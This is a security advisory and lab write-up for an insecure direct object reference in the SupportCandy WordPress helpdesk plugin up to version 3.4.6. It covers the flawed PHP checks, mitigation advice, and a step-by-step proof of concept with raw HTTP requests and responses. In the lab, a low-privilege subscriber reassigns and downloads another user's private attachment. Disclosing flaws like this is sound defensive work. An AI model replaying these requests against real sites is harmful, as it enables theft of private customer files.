# CVE-2026-54826 - SupportCandy Attachment IDOR via Thread Endpoint

# Overview

- Advisory: https://patchstack.com/database/wordpress/plugin/supportcandy/vulnerability/wordpress-supportcandy-plugin-3-4-6-insecure-direct-object-references-idor-vulnerability
- CVE-2026-54826
- Affected plugin: SupportCandy - Helpdesk & Customer Support Ticket System
- Affected versions: `<= 3.4.6`



# Summary

The vulnerability is in the REST endpoint used to create a thread (reply) on a ticket.

In SupportCandy `3.4.6`, a low-privilege user (Subscriber/Customer) can submit any existing attachment ID in the `attachments` parameter of the request:

```text
POST /wp-json/supportcandy/v2/tickets/{id}/threads
```

The plugin **only checks that the attachment ID exists in the database**, then reassigns that attachment to the attacker's ticket. It never verifies whether the attachment belongs to the current user, belongs to the current ticket, or is an unclaimed file uploaded by the same session/user.

Once the attachment has been reassigned to the attacker's ticket, the plugin's existing authorization logic treats the attacker as a "valid customer" of that attachment and returns a download URL. As a result, the attacker can download private files uploaded by the victim.

The core issue is not that the endpoint is public - the thread-creation endpoint is legitimately needed for any logged-in user replying to their own ticket. The problem is that the attachment "sanitize" step only confirms the record exists, which allows a direct reference to another user's object (IDOR).

# How I Found It

I started by reviewing SupportCandy's REST endpoints because this plugin manages private ticket attachments - an attractive target for authorization flaws.

I noticed a related older CVE (`CVE-2026-1251`) about an attachment IDOR via the `description_attachments` parameter during ticket creation, reportedly affecting versions `<= 3.4.4`. So I checked whether other attachment-handling paths still had a similar flaw in the latest version.

The thread-creation endpoint (`POST /tickets/{id}/threads`) also accepts an `attachments` parameter. I uploaded a private file with the victim account, then used the attacker account to confirm the attacker **cannot** access that file through the attachment endpoint (baseline returns `401/400`).

Then, from a ticket owned by the attacker, I sent a reply with `attachments=<victim_file_id>`. The plugin accepted the request and reassigned the attachment to the attacker's ticket. Calling the attachment endpoint again, the plugin returned the victim's file download URL. The bug was confirmed on `3.4.6` (the latest version at test time) through a different parameter/endpoint than the older CVE.

# Root Cause

The root cause is a "weak" check on the attachment ID received from the REST request: it only verifies existence, not ownership.

## 1. Sanitize Only Checks Existence

In the endpoint's parameter declaration, the `sanitize_callback` for `attachments` only calls `WPSC_Functions::sanitize_attachment()`:

```php
// includes/rest-api/class-wpsc-rest-tickets.php:190-200
'attachments' => array(
    'default'           => array(),
    'sanitize_callback' => function ( $param, $request, $key ) {
        return array_unique(
            array_filter(
                array_map(
                    fn( $attachment ) => WPSC_Functions::sanitize_attachment( intval( $attachment ) ),
                    explode( ',', sanitize_text_field( $param ) )
                )
            )
        );
    },
),
```

This helper only confirms that the attachment record exists:

```php
// includes/class-wpsc-functions.php:1030-1037
public static function sanitize_attachment( $id ) {
    if ( ! $id ) {
        return false;
    }

    $attachment = new WPSC_Attachment( $id );
    return $attachment->id ? $id : false;
}
```

The key part is:

```php
$attachment = new WPSC_Attachment( $id );
return $attachment->id ? $id : false;
```

There is no check at all about whether the attachment belongs to the current user, the current ticket, or is an unclaimed file uploaded by this user.

## 2. Unconditional Attachment Reassignment

After the weak existence check, the endpoint reassigns every supplied attachment to the new thread and to the attacker's ticket without any further checks:

```php
// includes/rest-api/class-wpsc-rest-individual-ticket.php:505-513
foreach ( $attachments as $id ) {
    $attachment = new WPSC_Attachment( $id );
    $attachment->is_active = 1;
    $attachment->source    = $type;
    $attachment->source_id = $thread->id;
    $attachment->ticket_id = $ticket->id;
    $attachment->save();
}
```

The attacker fully controls overwriting `source`, `source_id`, `ticket_id`, and `is_active` for any existing attachment.

## 3. Attachment Authorization Logic Is Tricked

Once the attachment metadata points to the attacker's ticket, the existing authorization logic treats the attacker as a valid customer and returns the download URL:

```php
// includes/rest-api/class-wpsc-rest-attachment.php:137-147
public static function get_individual_attachment( $request ) {
    $current_user = WPSC_Current_User::$current_user;
    $attachment = new WPSC_Attachment( $request->get_param( 'id' ) );
    $url = home_url( '/' ) . '?wpsc_attachment=' . $attachment->id
        . '&user=' . $current_user->user->ID
        . '&auth_code=' . $current_user->get_attachment_auth();
    $data = array(
        'id'   => intval( $attachment->id ),
        'name' => $attachment->name,
        'url'  => $url,
    );
    return new WP_REST_Response( $data, 200 );
}
```

# Exploit Flow

```text
Authenticated Subscriber user
        |
        v
POST /tickets/{attacker_ticket}/threads  (attachments=<victim_id>)
        |
        v
sanitize_attachment()  -> only checks existence
        |
        v
add_new_thread()       -> overwrites ticket_id/source/source_id
        |
        v
victim's attachment -> now belongs to attacker's ticket
        |
        v
GET /attachments/{victim_id}  -> returns download URL
        |
        v
Download the victim's private file
```

- Entry point: `POST /wp-json/supportcandy/v2/tickets/{attacker_ticket_id}/threads`
- Conditions: The attacker has a default Subscriber/Customer account and an owned ticket.
- Trigger: Submit `attachments=<victim_attachment_id>` when adding a reply to the attacker's ticket.
- Final impact: The victim's attachment is reassigned to the attacker's ticket, and the attacker can download the private file.

# PoC

Lab environment:

```text
Target:       http://192.168.1.14/wp/
Server:       Apache/2.4.58
SupportCandy: 3.4.6
Victim:       scvictim  (Subscriber, customer ID 2)
Attacker:     scattacker (Subscriber)
```

Both are regular Subscriber accounts - the lowest privilege level that many SupportCandy sites allow self-registration for. The goal of the demo is to prove that `scattacker` can read a private file uploaded by `scvictim`, even though initially it has no access to that file at all.

The plugin version and the two Subscriber accounts used in this demo:



First `scvictim` uploads a private file. I set the file content to a marker string (`SUPPORTCANDY_VICTIM_PRIVATE_ATTACHMENT_20260429`) so I can later confirm it really is the victim's file.

```http
POST /wp/index.php?rest_route=/supportcandy/v2/attachments HTTP/1.1
Host: 192.168.1.14
X-WP-Nonce: b0726fe68e
Cookie: wordpress_logged_in_903db62ceec32040e64ab2227b1ce1f9=scvictim%7C1782285524%7Co0DdHpXegimfO7YNUwWjJXBKqeSEm5JVkDgrpBNrKtR%7C9599b4f5545ef9e57491a0b481bb958639a93403012319f14e1f4053ee1acb54
Content-Type: multipart/form-data; boundary=----scboundary
Connection: close
Content-Length: 203

------scboundary
Content-Disposition: form-data; name="file"; filename="victim-private-evidence.pdf"
Content-Type: application/pdf

SUPPORTCANDY_VICTIM_PRIVATE_ATTACHMENT_20260429
------scboundary--
```

The plugin returns attachment ID `2`:

```http
HTTP/1.1 200 OK
Date: Mon, 22 Jun 2026 07:29:22 GMT
Server: Apache/2.4.58 (Ubuntu)
X-Robots-Tag: noindex
Link: <http://192.168.1.14/wp/index.php/wp-json/>; rel="https://api.w.org/"
X-Content-Type-Options: nosniff
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
X-WP-Nonce: b0726fe68e
Allow: POST
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0, no-store, private
Content-Length: 45
Connection: close
Content-Type: application/json; charset=UTF-8

{"id":2,"name":"victim-private-evidence.pdf"}
```



Then `scvictim` creates a ticket that attaches that same attachment ID `2` via `description_attachments`, so the file truly belongs to a private ticket owned by the victim:

```http
POST /wp/index.php?rest_route=/supportcandy/v2/tickets HTTP/1.1
Host: 192.168.1.14
X-WP-Nonce: b0726fe68e
Cookie: wordpress_logged_in_903db62ceec32040e64ab2227b1ce1f9=scvictim%7C1782285524%7Co0DdHpXegimfO7YNUwWjJXBKqeSEm5JVkDgrpBNrKtR%7C9599b4f5545ef9e57491a0b481bb958639a93403012319f14e1f4053ee1acb54
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 182

name=scvictim&email=victim.supportcandy%40example.test&subject=Victim+private+support+ticket&description=This+ticket+contains+the+victim+private+attachment.&description_attachments=2
```

Response

```http
HTTP/1.1 200 OK

{"id":3,"customer":2,"subject":"Victim private support ticket","status":1,"category":1,"date_created":"2026-06-22 07:33:16","date_updated":"2026-06-22 07:33:16","add_recipients":[],"date_closed":"","last_reply_on":"2026-06-22 07:33:16","last_reply_by":2,"last_reply_source":"rest-api","tags":[]}
```



Initial state:

```text
attachment ID 2 -> belongs to ticket 3 of scvictim (customer ID 2)
```

Checking the database, attachment ID `2` belongs to the victim's ticket `3` (`source=description`, `ticket_id=3`). This is the file the attacker will target.



Next, `scattacker` creates a normal ticket to own. This ticket will later be the "container" used to reassign the victim's attachment into.

```http
POST /wp/index.php?rest_route=/supportcandy/v2/tickets HTTP/1.1
Host: 192.168.1.14
X-WP-Nonce: 6a8f05439a
Cookie: wordpress_logged_in_903db62ceec32040e64ab2227b1ce1f9=scattacker%7C1782287500%7CekSMhtmgSl7eBGoN7Vwk5zzWTzDcRqeL4zJcuc7ldM2%7C94587cdb2508d9c7d41cc5ca83625e6d4c21424a178d4ddad57be9754e1e8d24
Content-Type: application/x-www-form-urlencoded
Connection: close

name=scattacker&email=attacker.supportcandy%40example.test&subject=Attacker+owned+support+ticket&description=Attacker+controlled+ticket+used+for+attachment+reassociation.
```

```http
HTTP/1.1 200 OK

{"id":4,"customer":3,"subject":"Attacker owned support ticket","status":1,"category":1,"date_created":"2026-06-22 07:52:57","date_updated":"2026-06-22 07:52:57","add_recipients":[],"date_closed":"","last_reply_on":"2026-06-22 07:52:57","last_reply_by":3,"last_reply_source":"rest-api","tags":[]}
```



The attacker now owns ticket ID `4` (customer ID 3).

Before the exploit, we prove that authorization normally works: `scattacker` tries to access the victim's attachment ID `2` and is denied.

```http
GET /wp/index.php?rest_route=/supportcandy/v2/attachments/2 HTTP/1.1
Host: 192.168.1.14
X-WP-Nonce: 6a8f05439a
Cookie: wordpress_logged_in_903db62ceec32040e64ab2227b1ce1f9=scattacker%7C1782287500%7CekSMhtmgSl7eBGoN7Vwk5zzWTzDcRqeL4zJcuc7ldM2%7C94587cdb2508d9c7d41cc5ca83625e6d4c21424a178d4ddad57be9754e1e8d24
Connection: close
```

```http
HTTP/1.1 400 Bad Request

{"code":"rest_invalid_param","message":"Invalid parameter(s): id","data":{"status":400,"params":{"id":"You are not authorized to access this attachment!"},"details":{"id":{"code":"unauthorized","message":"You are not authorized to access this attachment!","data":{"status":401}}}}}
```



The message `You are not authorized to access this attachment!` is proof that, in the normal state, the plugin blocks cross-user access. The next request breaks this.

This is the core of the exploit. From their own ticket ID `4`, `scattacker` sends a reply (thread) and slips the victim's attachment ID `2` into the `attachments` parameter:

```http
POST /wp/index.php?rest_route=/supportcandy/v2/tickets/4/threads HTTP/1.1
Host: 192.168.1.14
X-WP-Nonce: 6a8f05439a
Cookie: wordpress_logged_in_903db62ceec32040e64ab2227b1ce1f9=scattacker%7C1782287500%7CekSMhtmgSl7eBGoN7Vwk5zzWTzDcRqeL4zJcuc7ldM2%7C94587cdb2508d9c7d41cc5ca83625e6d4c21424a178d4ddad57be9754e1e8d24
Content-Type: application/x-www-form-urlencoded
Connection: close

type=reply&body=Please+attach+evidence+for+my+ticket.&source=rest-api&attachments=2
```

The plugin only checks that attachment ID `2` *exists* (via `sanitize_attachment()`), then happily reassigns it to the attacker's thread/ticket:

```http
HTTP/1.1 200 OK

{"id":"5","customer":"3","type":"reply","body":"Please attach evidence for my ticket.",
 "attachments":"2","seen":"","date_created":"2026-06-22 08:07:30"}
```



The response shows `attachments":"2"` now sits inside thread ID `5` owned by customer ID `3` (the attacker). The reassignment succeeded without any ownership check.

Now repeat the exact attachment-access request from earlier. This time, because the attachment metadata points to the attacker's ticket, the plugin treats the attacker as a valid customer and returns the download URL:

```http
GET /wp/index.php?rest_route=/supportcandy/v2/attachments/2 HTTP/1.1
Host: 192.168.1.14
X-WP-Nonce: 6a8f05439a
Cookie: wordpress_logged_in_903db62ceec32040e64ab2227b1ce1f9=scattacker%7C1782287500%7CekSMhtmgSl7eBGoN7Vwk5zzWTzDcRqeL4zJcuc7ldM2%7C94587cdb2508d9c7d41cc5ca83625e6d4c21424a178d4ddad57be9754e1e8d24
Connection: close
```

```http
HTTP/1.1 200 OK

{"id":2,"name":"victim-private-evidence.pdf",
 "url":"http:\/\/192.168.1.14\/wp\/?wpsc_attachment=2&user=6&auth_code=iaPA4kAnlSIq"}
```



Compared to the previous attempt (`400 Bad Request`), it is now `200 OK` with a download URL. Fetch that URL to retrieve the file content:

```http
GET /wp/?wpsc_attachment=2&user=6&auth_code=iaPA4kAnlSIq HTTP/1.1
Host: 192.168.1.14
```

```http
HTTP/1.1 200 OK
Content-Type: text/plain;charset=UTF-8

SUPPORTCANDY_VICTIM_PRIVATE_ATTACHMENT_20260429
```



The returned content is exactly the marker string that `scvictim` uploaded at the start - proving the attacker has read the victim's private file.

Post-exploit result - dumping the attachment record from the database shows it has been moved entirely from the victim's ticket to the attacker's ticket (`ticket_id` changed from `3` to `4`, `source`/`source_id` now point to the attacker's thread `5`):

```text
Array
(
    [id] => 2
    [name] => victim-private-evidence.pdf
    [file_path] => /wpsc/2026/06/..._victim-private-evidence.pdf
    [is_active] => 1
    [source] => reply
    [source_id] => 5
    [ticket_id] => 4     <- previously 3 (victim's ticket)
    [customer_id] => 0
)
```



State change summary:

```text
                         Before exploit          After exploit
attachment 2 ticket_id   3 (scvictim)            4 (scattacker)
GET /attachments/2       400 - Not authorized    200 - returns download URL
Victim's file            private                 read by attacker
```

# Impact

Any authenticated low-privilege user can steal private support ticket attachments by enumerating predictable attachment IDs and reassigning them to a ticket they own.

In the test environment, the vulnerability allowed:

1. Reading/downloading private files uploaded by other users (information disclosure).
2. Modifying attachment metadata (`source`, `source_id`, `ticket_id`, `is_active`), corrupting ticket records.
3. Changing/removing the original authorization context of the victim's attachment.

The main impact is broken access control leading to disclosure of sensitive data across accounts.

# Limitations

This vulnerability does not allow remote code execution (RCE).

The attacker needs to know or guess a valid attachment ID. However these IDs are sequential and easy to guess, so they can be enumerated at scale.

The attacker also needs a logged-in low-privilege account (Subscriber/Customer) - this is the default configuration that allows self-registration on many sites using SupportCandy.

# Mitigation

Administrators should update SupportCandy to `3.4.7` or later.

At the code level, when accepting attachment IDs from a REST request, the plugin must verify that **every** attachment belongs to the current user/ticket or is an unclaimed file uploaded by the same authenticated user. Low-privilege users must not be allowed to modify `source`, `source_id`, `ticket_id`, or `is_active` of an arbitrary existing attachment.

Example checks to add in `sanitize_attachment()` or in `add_new_thread()`:

1. The attachment belongs to the current ticket, or
2. The attachment is not yet assigned to any ticket and was created by the current user/session, and
3. The current user has permission on the target ticket.

# References

- SupportCandy: https://wordpress.org/plugins/supportcandy/
- Patchstack advisory: https://patchstack.com/database/wordpress/plugin/supportcandy/
- WordPress plugin source tag 3.4.6: https://plugins.svn.wordpress.org/supportcandy/tags/3.4.6/
- WordPress plugin source tag 3.4.7: https://plugins.svn.wordpress.org/supportcandy/tags/3.4.7/
